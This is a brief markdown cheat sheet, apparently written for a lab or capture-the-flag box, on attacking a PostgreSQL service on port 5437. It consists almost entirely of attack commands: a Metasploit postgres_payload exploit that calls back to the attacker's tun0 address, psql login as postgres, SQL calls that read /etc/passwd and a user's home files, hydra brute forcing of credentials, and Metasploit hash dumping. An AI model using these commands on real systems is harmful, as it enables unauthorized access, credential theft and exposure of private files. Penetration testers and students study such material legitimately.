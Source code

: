 # Commands
### Exploitation via Metasploit:
`5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.7`
```bash
use exploit(linux/postgres/postgres_payload)
set RHOST <target-ip>
set RPORT 5437
set LHOST tun0
run
```
### Manual Access via psql:
```bash
psql -U postgres -p 5437 -h <target-ip>
```

###
```bash
SELECT pg_ls_dir('./');
SELECT pg_ls_dir('/etc/passwd');
SELECT pg_ls_dir('/home/wilson');
SELECT pg_read_file('/home/wilson/local.txt');
```

### Brute Force Credentials
```bash
hydra -l username -P passwords.txt <target-ip> postgres
hydra -L usernames.txt -p password <target-ip> postgres

# Metasploit
msfconsole
msf> use auxiliary/scanner/postgres/postgres_login
msf> set rhosts <target-ip>
msf> run
```

### Dump User Hashes
```bash
msfconsole
msf> use auxiliary/scanner/postgres/postgres_hashdump
msf> set rhosts <target-ip>
msf> set username <username>
msf> set password <password>
msf> run
```

## Config File
```bash
# Version 14.x
/etc/postgresql/14/main/postgresql.conf
# Version 15.x
/etc/postgresql/15/main/postgresql.conf
```
